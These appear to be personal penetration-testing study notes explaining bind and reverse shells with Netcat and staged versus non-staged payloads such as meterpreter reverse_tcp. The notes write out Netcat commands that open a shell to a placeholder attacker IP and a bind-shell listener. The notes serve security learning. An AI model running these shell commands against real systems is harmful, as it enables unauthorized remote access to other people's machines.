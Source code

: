 # Shells

Shell: It refers to Access to a Machine.

There are 2 Types of Shells:
1. Bind Shell
2. Reverse Shell

We will use a tool called **Netcat**.

## Reverse Shell

- Most Commonly Used ie. 95% of the times.
- **TARGET CONNECTS TO THE ATTACKER**
- Attacker Send Exploit to Target which Connects the Target to Attackers Machine.

**ATTACKER**

> nc -nvlp <PORT_NUMBER>

-n : numeric-only IP addresses, no DNS
-v : verbose
-l : listen mode, for inbound connects
-p : local port number

**TARGET**

> nc <ATTACKER_IP> <PORT_NUMBER> -e /bin/sh

-e : specify filename  to exec after connect
	- /bin/sh -> Linux
	- /bin/cmd.exe -> Windows

![[Pasted image 20221105013902.png]]

### TARGET

![[Pasted image 20221105015029.png]]

### ATTACKER

![[Pasted image 20221105015304.png]]

### TARGET

![[Pasted image 20221105015420.png]]

## BIND SHELL

- Not Commonly used. Used mostly in External Assessments when there is an Error while Target trying to Connect to Our Attacker Machine inside a VM due to NAT issues, Bypass Firewall etc.
- **ATTACKER CONNECTS TO THE TARGET**
- Attacker Send Exploit to Target which Runs Netcat in Listen Mode on a Specific Port.

**TARGET**

> nc -nvlp <PORT_NUMBER> -e /bin/sh

**ATTACKER**

> nc <PORT_NUMBER>

![[Pasted image 20221105014329.png]]

### ATTACKER

![[Pasted image 20221105015843.png]]

### TARGET

![[Pasted image 20221105020021.png]]


# Payloads

**Payload**
- It refers to Malicious Code that is Sent with the Help of an Exploit to Attack a Machine ie. Get a Shell Back.

There are various kinds of Paylods ie. Windows Payload, Linux Payload, Meterpreter Payload, Python Payload etc.

There are 2 types of Payloads:
1. Non-Staged Payloads
2. Staged Payloads

## Non Staged

- Larger Payloads. Doesn't Always Work.
- Sends the Whole Payload at Once.
- Eg. /windows/meterpreter_reverse_tcp

## Staged

- Can be Less Stable.
- Sends Payloads in Stages.
- Eg. /windows/meterpreter/reverse_tcp

where, reverse_tcp -> Reverse Shell over TCP Connection.

If One Type of Payloads and Shells Doesn't Work, Try Another Types of Payloads and Shells.

![[Pasted image 20221105022905.png]]
